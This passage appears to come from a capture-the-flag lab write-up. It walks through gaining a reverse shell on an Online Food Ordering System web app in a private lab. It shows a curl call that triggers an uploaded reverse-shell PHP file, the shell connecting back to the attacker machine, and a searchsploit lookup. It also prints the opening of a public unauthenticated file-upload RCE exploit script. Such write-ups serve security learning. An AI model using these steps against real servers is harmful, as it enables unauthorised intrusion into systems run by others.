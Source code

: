 `firefox` > `http://192.168.56.127/admin/index.php?page=menu`

`<Ctrl+Shift+I>` > `Inspect` > `Network` > `Clear` > `Reload` > `Search: TEST`:
```
228 <img src="assets/img/1727425680_revsh.php" class="card-img-top" alt="..."> ←
```

`curl -s "http://192.168.56.127/assets/img/1727425680_revsh.php"`

```
connect to [192.168.56.118] from (UNKNOWN) [192.168.56.127] 66309 ←
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
www-data ←
```

<🔄 Alternative Step.>

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`searchsploit online food ordering`:
```
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Online Food Ordering System 1.0 - Remote Code Execution                                                                                                    | php/webapps/48827.txt
Online Food Ordering System 2.0 -  Remote Code Execution (RCE) (Unauthenticated)                                                                           | php/webapps/50305.py ←
Simple Online Food Ordering System 1.0 - 'id' SQL Injection (Unauthenticated)                                                                              | php/webapps/48829.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/50305.py ./`:

`ls -l ./50305.py`:
```
-rwxr-xr-x 1 kali kali 6702 Oct  4 09:40 ./50305.py ←
```

`cat ./50305.py`:
```python
# Exploit Title: Online Food Ordering System 2.0 -  Remote Code Execution (RCE) (Unauthenticated)
# Exploit Author: Abdullah Khawaja (hax.3xploit)
# Date: 2021-09-20
# Vendor Homepage: https://www.sourcecodester.com/php/14951/online-food-ordering-system-php-and-sqlite-database-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/online_ordering.zip
# Version: 2.0
# Tested On: Kali Linux, Windows 10 + XAMPP 7.4.4
# Description: Online Food Ordering System 2.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.

# Exploit Details:

# 1. Access the 'admin/ajax.php', as it does not check for an authenticated user session.
# 2. Set the 'action' parameter of the POST request to 'save_settings'.
```